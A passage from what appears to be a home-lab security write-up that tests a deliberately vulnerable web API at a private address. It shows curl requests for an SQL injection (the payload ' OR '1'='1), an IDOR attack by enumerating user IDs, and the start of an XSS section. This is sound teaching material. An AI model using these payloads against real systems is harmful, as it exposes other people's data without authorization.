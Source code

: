**Endpoint**: GET `/users`

**Normal Request**:

```bash
curl "http://192.168.60.2:8080/users?search=user"
```

- **Expected Behavior:**
  Retrieves usernames matching the search term.

**SQL Injection Attempt**:

```bash
curl "http://192.168.60.2:8080/users?search=' OR '1'='1"
```

- **Exploit:**
  Injects a condition (`' OR '1'='1`) that always evaluates as true, bypassing search criteria and exposing all usernames in the database.

![Output](/assets/img/Home%20Lab/searchSqlInjection.png)
---

### **4. Insecure Direct Object References (IDOR)**

**Endpoint**: GET `/users/:id`

**Normal Request**:

```bash
curl "http://192.168.60.2:8080/users/1"
```

- **Expected Behavior:**
  Retrieves details of the user with the specified `id`.

**IDOR Exploit**:

```bash
curl "http://192.168.60.2:8080/users/2"
```

- **Exploit:**
  An attacker can enumerate IDs to access other users’ data, exposing sensitive information.

---

### **5. Cross-Site Scripting (XSS)**

**Endpoint**: GET `/search`

**Normal Request**:

```bash
curl "http://192.168.60.2:8080/search?q=test"
```
